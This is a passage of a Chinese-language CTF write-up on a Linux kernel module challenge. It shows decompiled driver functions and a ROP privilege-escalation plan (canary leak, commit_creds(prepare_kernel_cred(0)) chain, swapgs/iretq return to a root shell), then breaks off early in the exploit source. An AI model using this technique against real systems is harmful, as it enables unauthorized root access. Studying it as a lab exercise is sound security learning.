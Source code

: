 
`core_write` 往全局变量 `name` 上写指定内容：

```cpp
signed __int64 __fastcall core_write(__int64 a1, __int64 buf, unsigned __int64 a3)
{
  unsigned __int64 len; // rbx

  len = a3;
  printk(&unk_215);
  if ( len <= 0x800 && !copy_from_user(&name, buf, len) )
    return (unsigned int)len;
  printk(&unk_230);
  return 0xFFFFFFF2LL;
}
```

最后 `core_release` 只是有一个 printk 输出：

```cpp
__int64 core_release()
{
  printk(&unk_204);
  return 0LL;
}
```

综上整理一下不难发现，我们可以任意地址读、可以往一个全局变量和一个函数中的局部变量写，那么就有下面的 ROP 思路：

1. 使用 `ioctl` 设置全局变量 `off`，然后调用 `core_read` 来泄漏 Canary；
2. 使用 `core_write` 向 `name` 写入 ROP 链（构造 `commit_creds(prepare_kernel_cred(0))`，地址通过 `/tmp/kallsyms` 中的内容获取）；
3. 使用 `core_copy_func` 把 `name` 上构造的 ROP 链写到局部变量上；
4. 最后返回用户态调用 `system("/bin/sh")`（通过 `swapgs ; iretq` 两条指令来恢复寄存器和返回用户态）。

> 关于找 Gadget 的方法，M4x 师傅说是用 ropper，但我个人感觉 ROPgadget 更快。
>
> ```bash
> $ ROPgadget --binary ./vmlinux > gadgets
> ```
>
> `ireq` 可以用 objdump 来找。

TODO

Exploit：

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <sys/ioctl.h>

void spawn_shell() {
  if (!getuid()) {
        system("/bin/sh");
        exit(0);
    } else {
        puts("[!] UID != 0");
        exit(-1);
    }
}

size_t commit_creds, prepare_kernel_cred;
```